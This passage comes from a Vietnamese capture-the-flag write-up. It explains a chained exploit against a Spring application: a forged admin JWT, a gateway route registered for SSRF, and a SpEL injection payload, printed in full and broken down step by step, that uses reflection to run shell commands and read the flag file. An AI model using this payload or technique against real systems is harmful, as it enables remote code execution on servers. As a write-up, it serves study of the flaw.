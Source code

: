 ```python 
resp_flag = requests.get(f'{base_url}/news/1/view', headers=auth_header)
print("\nFlag output:")
print(resp_flag.text)
```
{% endraw %}

**Luồng hoạt động tổng quan**
**1. Tạo JWT Token:**
- Script tạo token giả mạo với quyền admin để bỏ qua cơ chế xác thực.

**2. Đăng ký Route Gateway:**
- Route /news/** được đăng ký trong Spring Cloud Gateway để chuyển tiếp yêu cầu đến Newsman. (SSRF)

**3. Liệt kê file trong /app:**
- Payload SpEL thực thi lệnh ls /app để liệt kê file.
Script tìm tên file flag trong kết quả trả về.

**4. Đọc nội dung file flag:**
- Payload SpEL thực thi lệnh cat trên file flag để đọc nội dung.
Script hiển thị nội dung flag.

![image](https://hackmd.io/_uploads/ryC0VhP0ee.png)

#### Giải thích Payload và Cách Hoạt Động

**Payload Lệnh ls trong Body :**

1. SpEL Injection

```java 
"body": "#{role.getDeclaringClass().getClassLoader().loadClass(\"java.util.Scanner\").getConstructors().?[getParameterCount()==1 and getParameterTypes()[0].getName().equals(\"java.io.InputStream\")][0].newInstance(role.getDeclaringClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"ls /app\").getInputStream()).useDelimiter(\"\\\\A\").next()}"
```

- SpEL (Spring Expression Language) là một ngôn ngữ biểu thức được hỗ trợ bởi Spring Framework để thao tác với các đối tượng runtime trong ứng dụng.
- Ở đây, lỗ hổng cho phép attacker đưa nội dung SpEL độc hại vào trường body thông qua endpoint /news/1 (hàm updateNews).
- Sau đó, nội dung này được thực thi khi gọi endpoint /news/1/view, nơi hàm renderNewsBody sử dụng newsService.render() để xử lý nội dung trong body.

2. Cách Payload Hoạt Động

- Truy cập ClassLoader của role:

```java 
role.getDeclaringClass().getClassLoader()
```

- role: Là một biến có giá trị truyền vào EvaluationContext của SpEL.
- getDeclaringClass(): Lấy lớp khai báo của role.
- getClassLoader(): Truy cập ClassLoader của lớp này, cho phép tải các lớp khác trong JVM.

3. Sử dụng Reflection để tải lớp java.util.Scanner:
